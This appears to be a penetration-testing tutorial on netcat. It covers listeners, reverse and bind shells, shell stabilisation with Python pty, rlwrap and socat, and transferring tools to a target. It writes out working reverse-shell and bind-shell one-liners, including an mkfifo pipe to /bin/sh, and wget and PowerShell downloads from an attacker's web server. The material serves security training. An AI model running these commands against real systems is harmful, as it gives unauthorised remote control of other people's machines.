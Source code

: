 # Netcat

### Introduction

Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques



### Reverse Shells

The syntax for starting a netcat listener using Linux is this: `nc -lvnp <port-number>`

* \-l is used to tell netcat that this will be a listener
* \-v is used to request a verbose output
* \-n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
* \-p indicates that the port specification will follow.

We can then connect back to this with any number of payloads, depending on the environment on the target. Like on Target Machine `nc <LOCAL-IP> <PORT> -e /bin/bash`



### Bind Shells

If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straight forward: `nc <target-ip> <chosen-port>`



### **Shell Stabalization**

These shells are very unstable by default. Pressing Ctrl + C kills the whole thing.

They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running inside a terminal, rather than being bonafide terminals in their own right.

Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.

With any of the below techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

* First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns
* Next, in your reverse/bind shell, type in:
  * `stty rows <number>`
  * `stty cols <number>`
* Filling in the numbers you got from running the command in your own terminal.
* This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

#### Technique 1 (Python)

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as clear.
3. Finally (and most importantly) we will background the shell using `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

#### Technique 2 (rlwrap)

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

#### Technique 3 (Socat)

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`).



### **Other Linux Listener Methods**

#### Bind Shell

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

#### Reverse Shell

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The commands first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.
